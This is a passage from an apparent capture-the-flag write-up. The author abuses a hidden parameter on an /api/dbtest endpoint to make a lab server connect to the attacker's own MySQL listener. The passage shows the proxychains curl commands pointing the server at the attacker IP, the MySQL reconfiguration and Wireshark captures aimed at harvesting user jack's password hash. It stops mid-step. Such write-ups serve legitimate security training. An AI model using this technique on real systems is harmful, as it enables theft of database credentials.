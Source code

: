 Another interesting thing */api/dbtest* endpoint this enpoint issues a mysql connection and if we specify **secretdbtest_09ef** parameter in request it will issue a request to that host specified in parameter. Which means if we give it our host it will make a request to our host and we can grab username and password but password will be encrypted.

Let's do a simple curl request

```
proxychains curl 172.69.0.104/api/dbtest
```

It errors out with **ERROR 1045 (28000): Access denied for user 'jack'@'172.69.0.104' (using password: YES)**. We know username is jack and by default it made request to self host.

Let's change to that my host i.e 10.10.16.6

```
proxychains curl 172.69.0.104/api/dbtest?secretdbtest_09ef=10.10.16.6
```
and on my listener on port 3306(default mysql port), i receive connection but nothing happened. It just hanged

![Screenshot from 2022-04-19 12-21-16](https://user-images.githubusercontent.com/79413473/163943213-26a5544e-af61-49d7-899c-046e793a9d76.png)

Let's fire wireshark again and see what's going on also started my mysql server to receive mysql requests.

![Screenshot from 2022-04-19 12-26-57](https://user-images.githubusercontent.com/79413473/163944088-2414a9bf-b412-4715-bdac-4f41bee75c2c.png)

As you can see server is sending a sql connection on port 3306 but my machine is closing the connection With RST packet.(In red)

It happened because my mysql is accepting connection only locally and no remote connection is accepted. I had to edit my */etc/mysql/mysql.conf.d/mysqld.cnf* file for bind address from 127.0.0.1 to 0.0.0.0. And restart mysql server `sudo service mysql start`.

Now replay the curl request and look for requests in wireshark. We notice new error

![2022-04-19_12-43](https://user-images.githubusercontent.com/79413473/163946860-3cd3e365-b302-489f-b3a5-e9367148dcf7.png)

### Failed attempt to get jack's hash

Let's add this user to our database `create user jack@10.10.11.121 IDENTIFIED BY 'password';`

This helps in mitigating the connection drop error but doesn't help me much as i am getting no hashes in wireshark only salt, one thing i noticed is that 
although i don't get a hash in my wireshark but mysql table has a hash after the request. 

![2022-04-19_13-18](https://user-images.githubusercontent.com/79413473/163952784-b2b39fa5-cf21-4bb2-8977-0c649eae41f9.png)

![2022-04-19_13-19](https://user-images.githubusercontent.com/79413473/163952803-e8025e13-e254-4896-b767-75d0bb003bd1.png)

Another thing is by default my mysql had **caching_sha2_password** plugin which is more secure than **mysql_native_password**.

so to make things more compatible i will update jack user authentication plugin, 
